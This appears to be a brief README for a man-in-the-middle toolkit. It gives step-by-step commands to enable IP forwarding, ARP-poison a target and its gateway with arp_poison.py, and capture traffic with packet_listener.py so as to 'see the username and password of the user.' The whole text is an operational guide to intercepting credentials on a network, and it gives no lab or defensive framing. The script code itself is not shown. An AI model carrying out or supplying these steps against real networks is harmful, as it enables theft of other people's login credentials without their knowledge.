 == Man in the middle ==

The first step of the Man in the Middle Attack is IP Forwarding. 
Therefore, the code shown below should be run before everything. 

==> echo 1 > /proc/sys/net/ipv4/ip_forward 

To use the arp_poison.py tool: 
Pyhton3 arp_poison.py -t {target+IP} -g {Modem+IP}


Before using the packet_listener, scapy_http package should be downloaded. To do this, type the following script into the terminal: 
==> pip3 install scapy_http 

After that, we need to send packets by using arp_poison.py; 
==>python3 arp_poison.py

then we can listen to the network by packet_listener.py
==> python3 packet_listener.py

Then, you can see the username and password of the user.
